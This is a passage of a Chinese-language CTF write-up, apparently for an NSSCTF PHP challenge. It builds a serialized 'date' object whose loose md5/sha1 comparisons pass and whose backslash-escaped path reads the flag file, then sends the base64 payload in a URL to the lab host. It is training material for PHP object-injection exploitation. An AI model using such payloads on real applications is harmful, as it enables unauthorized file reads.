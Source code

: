 2. 分析题目

- 题目要求我们传入一个 date 类的对象，使得 __wakeup() 方法自动执行，从而触发前述逻辑。
- 也就是说，我们需要构造一个 date 类的对象，使得 $a 和 $b 满足哈希碰撞条件，并且 $file 指向一个可读取的文件。

3. 构造 payload

- 我们可以构造一个 date 类的对象，使得 $a 和 $b 满足哈希碰撞条件，并且 $file 指向一个可读取的文件,这里我们选择读取 flag.txt 文件。

```php
<?php
highlight_file(__FILE__);
class date{
    public $a;
    public $b;
    public $file;
}
$q=new date();
$q->a=1;
$q->b='1';
#这里直接让a=1，b='1'，就可以绕过三个条件，这俩md5和sha1都是一样的
$q->file='/f\l\a\g';
echo base64_encode(serialize($q));
?>
```

- date()会把特定字符格式化为当前时间戳，比如这里，把l换成了星期四Thursday a 换成了pm g换成了时间11

- 解决方法:转义字符\绕过: /f\l\a\g

4. 在线运行这个payload

![alt text](images/image.png)

5. 将得到的base64编码的payload通过code传入题目url中

`http://node5.anna.nssctf.cn:20114//?code=Tzo0OiJkYXRlIjozOntzOjE6ImEiO2k6MTtzOjE6ImIiO3M6MToiMSI7czo0OiJmaWxlIjtzOjg6Ii9mXGxcYVxnIjt9`
